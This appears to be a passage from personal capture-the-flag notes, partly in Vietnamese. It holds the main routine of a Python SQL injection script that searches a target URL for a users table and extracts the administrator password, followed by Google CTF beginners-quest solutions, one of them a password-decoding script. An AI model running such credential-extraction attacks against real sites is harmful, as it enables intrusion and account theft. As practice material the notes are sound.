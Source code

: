 ```
 if __name__ == "__main__":
    try: 
        url = sys.argv[1].strip()
    except IndexError: 
        print("[-] Usage: %s <url>" %sys.argv[0])
        print("[-] Example: %s www.example.com" %sys.argv[0])
        sys.exit(-1)
    print("Looking for a users table....")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" %users_table)
        username_column,password_column = sqli_users_columns(url,users_table)
        if username_column and  password_column:
            print("Found the username column name: %s", username_column)
            print("Found the password column name: %s", password_column)
            admin_password = sqli_administrator_cred(url,users_table,username_column,password_column)
            if admin_password: 
                print("[+] The administrator password is: %s" %admin_password) 
            else: 
                print("[-] Did not find the administrator password.")
        else: 
            print("Did not find the username and/ or the password columns.")
    else: 
        print("Did not find a users table.")
```
## Google Ctf
### 1. Vienna - Chemical plant 
- https://capturetheflag.withgoogle.com/beginners-quest
Hàm array.from trong js có tác dụng biến đổi string thành mảng của các kí tự.
Hàm array.map() có tác dụng biến đổi các phần tử của mảng.
vd: array.map(x => x * x): bình phương tất cả các phần tử của mảng.
```
p = [0] * 12
offset = "0xcafe"
p[0] =  52037
p[6] = 52081
p[5] = 52063 
p[1] = 52077 
p[9] = 52077 
p[10] = 52080 
p[4] = 52046 
p[3] = 52066 
p[8] = 52085 
p[7] = 52081 
p[2] = 52077 
p[11] = 52066 
password = []
for x in p: 
   password.append(chr(x - int(offset,16)))
print("".join(password))
```
### 2. Prague - Apartment
- Sử dụng các cổng logic.
### 3. Prague - Streets
```
var carArray = scanArray;
var max = 0;
for(var i = 1;i < carArray.length;i++){
     if(max < carArray[i]){
```